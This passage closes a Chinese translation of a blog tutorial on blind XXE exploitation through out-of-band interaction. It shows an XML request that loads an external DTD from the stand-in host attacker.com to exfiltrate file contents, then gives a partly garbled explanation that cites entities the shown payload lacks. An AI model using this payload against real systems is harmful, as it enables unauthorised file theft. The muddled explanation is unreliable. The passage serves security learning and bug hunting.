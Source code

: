 对应用的请求：

```bash
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
  %all;
]>
<data>&content;</data>
```

## 解释

首先，调用**%dtd**,服务器向**[http://attacker.com/evil.dtd](http://attacker.com/evil.dtd)**发出请求，下载玩 dtd 之后，解析器加载 dtd，然后加载%file，被**%start;** and **%end;**包装在**CDATA**中的参数实体。最后，**%all**存放在%start; 到 %end 捕获到的内容。一个通用的实体内容正在被定义，该内容可以作为对攻击者响应的一部分。这个场景是结果是反映在响应中的，。所以在对盲 XXE 进行盲注时，请使用 OAST 的语法。

这就是这篇博客文章的所有内容，期待在下一篇文章与你相遇。

在那之前，祝福你快乐地挖掘漏洞。

## 参考链接

-   [https://portswigger.net/burp/documentation/collaborator](https://portswigger.net/burp/documentation/collaborator)
-   [https://portswigger.net/web-security/xxe/blind](https://portswigger.net/web-security/xxe/blind)
-   [https://dzone.com/articles/xml-external-entity-xxe-limitations](https://dzone.com/articles/xml-external-entity-xxe-limitations)

> 本文为翻译文章，原文链接：[https://shreyapohekar.com/blogs/blind-xxe-attacks-out-of-band-interaction-techniques-oast-to-exfilterate-data/](https://shreyapohekar.com/blogs/blind-xxe-attacks-out-of-band-interaction-techniques-oast-to-exfilterate-data/)
